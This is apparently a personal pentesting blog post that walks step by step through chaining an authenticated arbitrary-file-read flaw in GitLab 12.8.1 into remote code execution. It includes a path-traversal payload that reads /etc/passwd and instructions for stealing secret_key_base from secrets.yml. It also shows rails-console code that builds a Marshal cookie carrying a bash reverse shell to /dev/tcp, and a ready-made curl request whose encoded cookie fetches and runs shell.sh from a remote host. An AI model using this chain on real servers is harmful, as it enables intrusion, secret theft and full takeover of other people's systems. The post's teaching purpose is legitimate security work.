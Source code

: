 ```yaml
---
title: Gitlab Exploit (Authenticated) - Arbitrary file read and RCE
author: Udesh
date: 2021-05-04
categories: [Pentesting]
tags: [Pentesting]
image: /assets/img/post/post9/0.png
---
```


This blog post will cover arbitrary file read vulnerability in GitLab 12.8.1.The vulnerability occurs when moving and issues between projects. [here](https://hackerone.com/reports/827052 "here") you can find the vulnerability in hackerone. Also we can turn this vulnerability into RCE as the *cookies_serializer*. 

## Step 1: Arbitrary file read
First, we need to create two projects. Create two projects and name them Project 1 and Project 2. 

 ![1.PNG]({{site.baseurl}}/assets/img/post/post9/1.PNG)

Then go into project 1 and create an issue. Under Description, field put the following payload and click on submit the issue.

```shell
![a](/uploads/11111111111111111111111111111111/../../../../../../../../../../../../../../etc/passwd)  

```
![2.PNG]({{site.baseurl}}/assets/img/post/post9/2.PNG) 

Then select **Move issue** at bottom most right corner and select project 2 and finally click on **Move **to  move this issue to project 2. 

![3.PNG]({{site.baseurl}}/assets/img/post/post9/3.PNG) 

Once your issue is moved to project1 you can see an attachment of passwd below Issue1. Click on the attachment of the password to download it.

![4.PNG]({{site.baseurl}}/assets/img/post/post9/4.PNG) 

Now we have confirmed that we can read OS file by this vulnerability.

## Step 2: RCE

We can turns this arbitrary file read into remote code execution. this can be done by first grabbing the **secret_key_base** value from **secrets.yml** using the arbitrary file read and then use the **experimentation_subject_id** cookie with a Marshalled payload.

Following the above step, now we can grab the **secret_key_base** value from **secrets.yml** which is located in **/opt/gitlab/embedded/service/gitlab-rails/config/** and use this to perform an RCE. 

![5.PNG]({{site.baseurl}}/assets/img/post/post9/5.PNG) 

According to the hackerone report  [here](https://hackerone.com/reports/827052 "here") we need to self-hosted gitlab to get the  Marshalled payload. For this, I am going to install GitLab image in my docker as a container. 

```shell
sudo docker run --rm -d -p 4443:443 -p 8090:80 -p 2222:22 --name gitlab gitlab/gitlab-ce:12.8.1-ce.0
sudo docker exec -ti bash
```
After that we need to replace the **secret_key_base** in **secrets.yml** file in our local gitlab instance. In the local gitlab server swap the **secret_key_base** value that we grabbed above. 

```shell
nano /opt/gitlab/embedded/service/gitlab-rails/config/secrets.yml
```
![6.PNG]({{site.baseurl}}/assets/img/post/post9/6.PNG) 

After reconfigured our GitLab server we can create Marshalled Payload by putting following payloads in gitlab-rails console one by one.

First we need to start rails console.
```shell
gitlab-rails console
```
![7.PNG]({{site.baseurl}}/assets/img/post/post9/7.PNG) 

for cookie generation

```shell
request = ActionDispatch::Request.new(Rails.application.env_config)
request.env["action_dispatch.cookies_serializer"] = :marshal
cookies = request.cookie_jar
erb = ERB.new("<%= `bash -c 'bash -i >& /dev/tcp/YOUR IP PORT 0>&1'` %>")
depr = ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy.new(erb, :result, "@result", ActiveSupport::Deprecation.new)
cookies.signed[:cookie] = depr
puts cookies[:cookie]
```
We have got a marshalled payload. You can assume it as a cookie. Now using this cookie we will make request to https://gitlabserver.com/users/sign_in and this will get reverse connection on your netcat listener.

```shell
curl -vvv -k 'https://gitlabserver.com/users/sign_in' -b "experimentation_subject_id=BAhvOkBBY3RpdmVTdXBwb3J0OjpEZXByZWNhdGlvbjo6RGVwcmVjYXRlZEluc3RhbmNlVmFyaWFibGVQcm94eQk6DkBpbnN0YW5jZW86CEVSQgs6EEBzYWZlX2xldmVsMDoJQHNyY0kiaSNjb2Rpbmc6VVRGLTgKX2VyYm91dCA9ICsnJzsgX2VyYm91dC48PCgoIGBjdXJsIGh0dHA6Ly8xMC4xMC4xNC4xMy9zaGVsbC5zaCB8IGJhc2hgICkudG9fcyk7IF9lcmJvdXQGOgZFRjoOQGVuY29kaW5nSXU6DUVuY29kaW5nClVURi04BjsKRjoTQGZyb3plbl9zdHJpbmcwOg5AZmlsZW5hbWUwOgxAbGluZW5vaQA6DEBtZXRob2Q6C3Jlc3VsdDoJQHZhckkiDEByZXN1bHQGOwpUOhBAZGVwcmVjYXRvckl1Oh9BY3RpdmVTdXBwb3J0OjpEZXByZWNhdGlvbgAGOwpU--94b17553fb6a110472a87df915e1a5765a25219b"

```
![8.PNG]({{site.baseurl}}/assets/img/post/post9/8.PNG) 

😎
## References
https://hackerone.com/reports/827052



